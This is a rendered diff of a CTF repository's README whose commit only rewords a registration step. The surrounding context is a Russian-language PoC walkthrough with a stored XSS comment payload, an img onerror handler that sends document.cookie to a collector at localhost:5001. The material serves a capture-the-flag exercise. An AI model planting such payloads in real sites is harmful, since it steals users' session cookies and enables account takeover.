

Before and after one commit to taanchhik/crocodile-ctf, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -81,7 +81,7 @@ page.evaluate(f"document.cookie = 'flag={FLAG}; path=/';")
 ## PoC-эксплойт для получения флага
 
 1. Заходим в приложение с помощью браузера: http://127.0.0.1:5000
-2. Создаем нового пользователя: придумываем имя и пароль. Регистрируемся и входим в систему с этими данными.
+2. Создаем нового пользователя: придумываем имя и пароль. Регистрируемся и входим в систему под этими учетными данными.
 3. Выберите любую статью и напишите комментарий:
    ```html
    <img src=x onerror="fetch('http://localhost:5001/catch?c='+document.cookie)">
````
